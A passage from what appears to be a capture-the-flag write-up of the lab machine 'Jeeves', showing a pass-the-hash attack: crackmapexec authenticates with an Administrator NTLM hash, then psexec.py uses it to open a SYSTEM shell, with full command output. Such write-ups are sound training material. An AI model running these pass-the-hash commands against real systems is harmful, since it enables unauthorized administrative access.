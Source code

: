 #### Pass The Hash

Because of how Windows handles authentication, when you enter your
password, it's actually the hash of the password that the client sends
to Windows. That means with the right client, you can just pass that
hash directly. `crackmapexec` is one of those clients that can take a
hash and try to auth with it, and it works:



    oxdf@hacky$ crackmapexec smb 10.10.10.63 -u Administrator -H aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00                                                    
    SMB         10.10.10.63     445    JEEVES           [*] Windows 10 Pro 10586 x64 (name:JEEVES) (domain:Jeeves) (signing:False) (SMBv1:True)
    SMB         10.10.10.63     445    JEEVES           [+] Jeeves\Administrator:aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 (Pwn3d!)



Now only is it successful, but it shows `(Pwn3d!)`, which means this
account has admin access.

### Shell

With valid admin creds, I'll use `psexec.py` to get a shell:



    oxdf@hacky$ psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 administrator@10.10.10.63 cmd.exe
    Impacket v0.9.25.dev1+20220119.101925.12de27dc - Copyright 2021 SecureAuth Corporation

    [*] Requesting shares on 10.10.10.63.....
    [*] Found writable share ADMIN$
    [*] Uploading file KLAXsITe.exe
    [*] Opening SVCManager on 10.10.10.63.....
    [*] Creating service xUyL on 10.10.10.63.....
    [*] Starting service xUyL.....
    [!] Press help for extra shell commands
    Microsoft Windows [Version 10.0.10586]
    (c) 2015 Microsoft Corporation. All rights reserved.

    C:\Windows\system32> whoami
    nt authority\system



### root.txt

On Administrator's desktop, there's no `root.txt`, but rather a
`hm.txt`:



    C:\Users\Administrator\Desktop> dir
     Volume in drive C has no label.
     Volume Serial Number is BE50-B1C9

     Directory of C:\Users\Administrator\Desktop
